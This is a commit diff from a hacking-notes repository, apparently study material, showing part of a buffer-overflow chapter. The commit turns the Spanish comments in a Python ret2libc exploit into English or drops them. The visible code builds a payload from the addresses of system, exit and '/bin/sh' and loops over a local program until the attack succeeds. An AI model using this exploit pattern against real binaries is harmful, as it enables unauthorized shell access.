

Before and after one commit to mlopez66/hacking-notes, an R Markdown document (03-Vulnerability-Assessment/03-02-bufferoverflow.Rmd): the page in a window 1100 px wide, from 4180 px down. Rendered offline with R 4.5, knitr and Pandoc, with nearby package versions; drawn as R Markdown's standard HTML page in place of the format the file asks for.

Commit message:
Add Linux Bof basics

```diff
--- a/03-Vulnerability-Assessment/03-02-bufferoverflow.Rmd
+++ b/03-Vulnerability-Assessment/03-02-bufferoverflow.Rmd
@@ -278,11 +278,9 @@ bin_sh_addr = pack("<I", base_libc + bin_sh_addr_offset)
 
 payload = junk + system_addr + exit_addr + bin_sh_addr
 
-# Lanzamos el bucle infinito hasta que la direccion sea la buena
+# Running the call function until the address is the good one
 while True:
-    #lanzamos el subprocess y almazenamos el codigo de estado en una variable ret
     ret = call(["/home/user/program", payload])
-    # Si el codigo de estado es exitoso salimos del programa
     if ret == 0:
         print("\n[+] Saliendo del programa...\n")
         sys.exit(0)
```
